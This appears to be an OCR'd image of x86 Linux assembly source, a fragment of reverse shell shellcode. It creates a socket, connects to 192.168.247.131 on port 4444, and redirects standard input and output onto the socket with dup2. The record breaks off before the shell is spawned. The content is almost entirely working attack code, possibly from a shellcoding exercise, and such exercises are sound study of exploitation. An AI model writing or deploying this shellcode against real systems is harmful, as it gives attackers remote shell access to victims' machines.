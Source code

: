 ```asm
	mov bl, 0x1
	

	push ecx	; 0x0
	push ebx	; 0x1 SOCK_STREAM

	push 0x2	; AF_INET

	; point ecx to the stack for args
	mov ecx, esp
	int 0x80	; socketcall(SYS_SOCKET, {AF_INET, SOCK_STREAM, 0})

	; keep sockfd for later
	mov edi, eax


	;************************;
	; connect to ip and port ;
	;************************;


	; 0x66 for socketcall
	mov al, 0x66

	inc ebx
	
	; push struct to stack
	push 0x83f7a8c0		; ip: aton(192.168.247.131)

	push word 0x5C11	; port: htons(4444) - 0x5C11
	push bx			; AF_INET - 0x2

	inc ebx			; 0x3 SYS_CONNECT

	; store reference to struct
	mov ecx, esp

	; push connect args
	push 0x10	; size of struct
	push ecx	; struct sock_addr
	push edi	; sockfd

	mov ecx, esp
	int 0x80	; socketcall(SYS_CONNECT, {sockfd, sock_addr, addrlen})


	;******************;
	; redirect outputs ;
	;******************;


	mov ebx, edi	; sockfd arg
	xor ecx, ecx
	mov cl, 0x2	; set up counter

dup:
	mov al, 0x3f	; dup2
	int 0x80	; dup2(sockfd, [cl])
	dec ecx
	jns dup
	

	;*****************;
```